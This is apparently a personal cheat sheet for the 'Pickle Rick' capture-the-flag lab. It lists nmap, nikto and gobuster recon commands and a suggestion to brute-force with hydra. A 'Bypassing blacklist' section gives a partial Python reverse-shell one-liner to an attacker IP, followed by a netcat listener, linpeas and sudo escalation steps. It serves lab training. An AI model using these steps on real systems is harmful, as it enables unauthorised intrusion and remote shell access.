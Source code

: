 # Pen-testing Set up demonstrated by John Hammond for the Pickle rick CTF

- step 1: make directory for resources
- Step 2: subl README.md
  - Add ip as export to note pad
    - export IP={IP}
    - nmap results
- Step 3: create nmap directory
  - nmap -sC -sV -oN [file location]} $IP
- Grab IP address

## Rockyou extracting or other file extraction
> tar -xvf /usr/share/wordlist/rockyou.tar.gz

## Set up Nikto scanner
  - export IP={IP}
  - nikto -h http://$IP | tee nikto.log

# Set up gobuster
  - export IP
  - gobuster dir -u <url> -w <wordlist_file.txt> -x <file_extensions>
  - gobuster dir -u http://workers.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,php3,html


## Investigation options
- nmap
- could use hydra to brute force password
- gobuster
- investigate website for clues
- grep . clue.txt // grep -R . (return all files in folder - look at source code)

## Base64 string - add 'base64 -d' to get through the layers of the onion of base64
  - echo {base 64} | base64 -d | base64 -d

## Bypassing blacklist
- test what languages will work in text box
- pentestmonkey (reverse shell cheatsheet)
  - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{Change to my IP}",{Change to port 9999}))
- nc -lnvp 9999
- run above script in text box
### Stabalize shell
- github.com/johnHammond/poor-mans-pentest
- stabilize_shell3.sh
- upload_file_nc.sh /opt/linpeas.sh

- shm$ chmod +x linpeas.sh
- ./linpeas.sh
- sudo bash

  - identify my IP address
    - ip addr show tun0

## Task list
1. What is the first ingredient Rick needs?

2. Whats the second ingredient Rick needs?

3. Whats the final ingredient Rick needs?